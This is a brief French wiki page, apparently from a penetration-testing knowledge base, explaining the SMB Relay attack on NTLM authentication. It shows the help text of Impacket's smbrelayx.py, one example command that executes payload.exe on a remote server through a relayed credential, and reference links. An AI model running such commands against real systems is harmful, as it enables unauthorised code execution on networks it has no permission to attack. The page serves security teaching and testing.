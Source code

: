 ```yaml
---
title: SMB Relay
permalink: /SMB_Relay/
---
```


SMB Relay est une méthode d'attaque permettant de relayer une authentification NTLM pour s'authentifier auprès d'un service [SMB](/SMB "wikilink").

Outils
------

[Impacket](/Impacket "wikilink") propose un outil **smbrelayx.py**:

``` text
Impacket v0.9.13 - Copyright 2002-2015 Core Security Technologies

usage: smbrelayx.py [--help] [-h HOST] -e FILE
                    [-machine-account MACHINE_ACCOUNT]
                    [-machine-hashes LMHASH:NTHASH] [-domain DOMAIN]

For every connection received, this module will try to SMB relay that
connection to the target system or the original client

optional arguments:
  --help                show this help message and exit
  -h HOST               Host to relay the credentials to, if not it will relay
                        it back to the client
  -e FILE               File to execute on the target system
  -machine-account MACHINE_ACCOUNT
                        Domain machine account to use when interacting with
                        the domain to grab a session key for signing, format
                        is domain/machine_name
  -machine-hashes LMHASH:NTHASH
                        Domain machine hashes, format is LMHASH:NTHASH
  -domain DOMAIN        Domain FQDN or IP to connect using NETLOGON
```

Une utilisation simple est la suivante:

``` bash
smbrelayx.py -e payload.exe -h 10.33.1.1
```

Ceci executera le fichier payload.exe sur le serveur 10.33.1.1 si l'utilisateur qu'on relaie a les droits nécessaires.

Références
----------

### Liens externes

-   [SMBRelay avec python sur SANS](https://pen-testing.sans.org/blog/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python)
-   [SMB Relay sur carnal0wnage](http://carnal0wnage.attackresearch.com/2012/11/windows-7-and-smb-relay.html)
-   [Méthodes de défense sur skullsecurity](https://blog.skullsecurity.org/2008/ms08-068-preventing-smbrelay-attacks)
-   [MS08_068 + MS10_046 = FUN UNTIL 2018](http://room362.com/post/2012/2012-02-11-ms08_068-ms10_046-fun-until-2018/)

[Category:Méthodologies](/Category:Méthodologies "wikilink")